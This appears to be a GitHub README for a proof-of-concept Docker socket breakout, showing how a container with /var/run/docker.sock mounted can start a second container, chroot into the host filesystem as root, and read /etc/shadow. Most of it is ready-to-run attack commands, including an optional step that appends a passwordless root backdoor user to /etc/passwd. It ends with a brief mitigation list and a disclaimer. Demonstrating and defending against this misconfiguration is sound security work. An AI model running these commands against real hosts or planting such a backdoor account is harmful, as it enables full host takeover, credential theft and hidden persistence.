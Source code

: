# 🐳 Docker.sock Breakout PoC

> 🚨 A proof-of-concept showing how mounting `/var/run/docker.sock` into a container gives root access to the host.

This project demonstrates a **critical Docker misconfiguration**. By mounting the Docker Unix socket into a container, the container can communicate with the host Docker daemon — and effectively escape its sandbox, escalate privileges, and fully control the host.

## ⚠️ TL;DR

Mounting `/var/run/docker.sock` gives the container **root-level access to the host**.

## 📁 Project Structure

```
docker-sock-poc/
├── Dockerfile
├── docker-compose.yml
└── exploit.sh
```

## 🧪 How It Works

1. A container is started with `-v /var/run/docker.sock:/var/run/docker.sock`
2. Inside the container, Docker CLI is available
3. We use Docker inside the container to run **another** container
4. That second container mounts `/` from the host and runs `chroot /host`
5. Now we’re inside the host, as root

## 🚀 Quick Start

### 1. Build and Run

```bash
git clone https://github.com/yourname/docker-sock-poc.git
cd docker-sock-poc

docker-compose up -d
docker exec -it docker-sock-breakout sh
```

### 2. Inside the Container

```bash
docker ps
docker run -it --rm -v /:/host alpine
```

### 3. Inside the Alpine container

```bash
chroot /host
hostname
id
ls /root
cat /etc/shadow
```

## 🕵️ Optional: Add a Backdoor User

```bash
echo 'hacker::0:0:Hacker:/root:/bin/bash' >> /etc/passwd
```

## 📉 Impact

- Full host filesystem access
- Run arbitrary containers as `--privileged`
- Read sensitive files like `/etc/shadow`, `/root/.ssh/`
- Install rootkits or persist on host
- Pivot to other containers, networks, volumes

## 🛡️ Mitigation

- ❌ Do NOT mount `/var/run/docker.sock` into untrusted containers
- ✅ Use alternatives like:
  - Kaniko
  - BuildKit
- ✅ Use rootless Docker
- ✅ Enforce security policies with AppArmor, SELinux, seccomp
- ✅ Audit Docker usage with tools like Falco, AuditD

## 🧠 Author

**@yourname**  
Security Researcher | DevSecOps | Threat Hunter

## ⚠️ Disclaimer

This project is for **educational purposes only**. Do not run this on any system you don't own or have permission to test. You are responsible for your actions.

